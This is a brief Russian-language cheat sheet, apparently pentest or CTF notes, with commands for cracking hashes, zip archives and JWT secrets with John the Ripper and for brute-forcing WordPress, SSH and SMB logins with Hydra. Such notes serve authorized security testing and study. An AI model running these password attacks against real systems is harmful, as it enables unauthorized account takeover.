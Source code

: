 ## John the ripper
Имея hash пароля пытается подобрать верный пароль.
Пример:
```bash
john hash.txt --wordlist=/usr/share/wordlist/rockyou.txt -format={hash format, напримире bcrypt} resultFile.txt
```
### MD5
Пример:
```bash 
john md5.hash --wordlist=/usr/share/wordlist/rockyou.txt -format=Raw-MD5 resultFile.txt
```
или стандартный взлом hash-а:
```bash
john hash.txt --show
```
### Zip archive
```bash
zip2john archive.zip > arch.hash
john arch.hash -w rockyou.txt
```
### JWT
```bash
john jwt.txt --wordlist=wordlist.txt --format=HMAC-SHA256
```
## Hydra
Пример брутфорса пародя внутри формы авторизации на wordpress/wp-login.php:
```bash 
hydra -L {username} -p {brutList.txt} {url например 10.10.1.2} http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30
```
```bash
hydra -l {username} -P {brutList.txt} {url например 10.10.1.2} http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for username" -t 30
```
Пример брутфорса пароля SSH на порту 2222:
```bash
hydra -l {username} -P {brutList.txt} ssh:10.10.1.2:2222
```
Брутфорс авторизации по smb:
```bash
hydra -L users.txt -P pass.txt {IP} smb -V
```
## Взлом Hash-а - hash-identifier
```bash
hash-identifier
HASH: {hash}
```